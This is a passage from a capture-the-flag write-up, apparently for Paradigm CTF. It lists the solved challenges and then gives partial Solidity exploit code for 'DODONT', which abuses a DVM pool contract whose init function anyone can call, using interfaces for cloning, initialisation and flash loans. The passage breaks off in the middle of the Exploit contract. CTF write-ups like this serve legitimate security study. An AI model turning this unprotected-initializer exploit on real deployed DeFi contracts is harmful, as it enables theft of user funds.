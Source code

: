 # Paradigm CTF Writeup
We have solved all challenges (didn't manage to get the exploit working for JOP in the last minute 😭). 

[DODNT](#dodont)  
[Token Locker](#token-locker)  
[Suspicious Charity](#suspicious-charity)  
[DAI++](#dai)

### DODONT
The DVM contract deployed at `0x1a650d6F031555837D016142b5Aec2E76ab5637F`'s init can be called by anyone. 

```solidity
import "forge-std/test.sol";
import "../src/Challenge.sol";
import "@openzeppelin/contracts/token/ERC20/ERC20.sol";
import "forge-std/console.sol";

interface CloneFactoryLike {
    function clone(address) external returns (address);
}

interface DVMLike {
    function init(
        address maintainer,
        address baseTokenAddress,
        address quoteTokenAddress,
        uint256 lpFeeRate,
        address mtFeeRateModel,
        uint256 i,
        uint256 k,
        bool isOpenTWAP
    ) external;

    function buyShares(address) external;
    function flashLoan(
        uint256 baseAmount,
        uint256 quoteAmount,
        address assetTo,
        bytes calldata data
    ) external;
    function _QUOTE_TOKEN_() external view returns (address);
}

contract QuoteToken is ERC20 {
    constructor() ERC20("Quote Token", "QT") {
        _mint(msg.sender, 1_000_000 ether);
    }

    function mint(address to, uint256 value) public {
        _mint(to, value);
    }
}


contract Exploit {
    CloneFactoryLike private immutable CLONE_FACTORY = CloneFactoryLike(0x5E5a7b76462E4BdF83Aa98795644281BdbA80B88);
    address private immutable DVM_TEMPLATE = 0x2BBD66fC4898242BDBD2583BBe1d76E8b8f71445;

    IERC20 private immutable WETH = IERC20(0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2);
    address public challenge;
```